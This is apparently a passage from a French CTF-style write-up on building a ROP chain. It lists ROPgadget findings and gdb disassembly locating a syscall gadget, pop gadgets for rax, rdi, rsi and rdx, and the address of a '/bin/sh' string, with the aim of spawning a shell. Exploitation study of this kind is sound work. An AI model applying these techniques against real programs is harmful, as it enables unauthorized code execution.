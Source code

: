 Avec ROPgadget on trouve les instructions. 
Le chemin /bin/sh.  
L'appel de /bin/sh par syscall.  

On faire un appel système (syscall avec tout les bon arguments)  

Sous forme 

syscall 0x00000000004005fa
pop rax
pop rdi
pop rsi
pop rdx
/bin/sh strings 0x00000000004006f8  

```bash
(gdb) x/10i 0x00000000004005fa
   0x4005fa <entree_1+4>:	syscall 
   0x4005fc <entree_1+6>:	ret    
   0x4005fd <entree_1+7>:	nop
   0x4005fe <entree_1+8>:	pop    %rbp
   0x4005ff <entree_1+9>:	ret    
   0x400600 <entree_2>:	push   %rbp
   0x400601 <entree_2+1>:	mov    %rsp,%rbp
   0x400604 <entree_2+4>:	pop    %rdi
   0x400605 <entree_2+5>:	ret    
   0x400606 <entree_2+6>:	nop
(gdb) x/100i 0x00000000004005fa
   0x4005fa <entree_1+4>:	syscall 
   0x4005fc <entree_1+6>:	ret    
   0x4005fd <entree_1+7>:	nop
   0x4005fe <entree_1+8>:	pop    %rbp
   0x4005ff <entree_1+9>:	ret    
   0x400600 <entree_2>:	push   %rbp
   0x400601 <entree_2+1>:	mov    %rsp,%rbp
   0x400604 <entree_2+4>:	pop    %rdi <------------------------ rdi 
   0x400605 <entree_2+5>:	ret    
   0x400606 <entree_2+6>:	nop
   0x400607 <entree_2+7>:	pop    %rbp
   0x400608 <entree_2+8>:	ret    
   0x400609 <entree_3>:	push   %rbp
   0x40060a <entree_3+1>:	mov    %rsp,%rbp
   0x40060d <entree_3+4>:	pop    %rsi <-------------------------- rsi
   0x40060e <entree_3+5>:	ret    
   0x40060f <entree_3+6>:	nop
   0x400610 <entree_3+7>:	pop    %rbp 
   0x400611 <entree_3+8>:	ret    
   0x400612 <entree_4>:	push   %rbp
   0x400613 <entree_4+1>:	mov    %rsp,%rbp
   0x400616 <entree_4+4>:	pop    %rdx <--------------------------- rdx 
   0x400617 <entree_4+5>:	ret    
   0x400618 <entree_4+6>:	nop
   0x400619 <entree_4+7>:	pop    %rbp
   0x40061a <entree_4+8>:	ret    
   0x40061b <entree_5>:	push   %rbp
   0x40061c <entree_5+1>:	mov    %rsp,%rbp
   0x40061f <entree_5+4>:	pop    %rax <------------------------- rax 
```
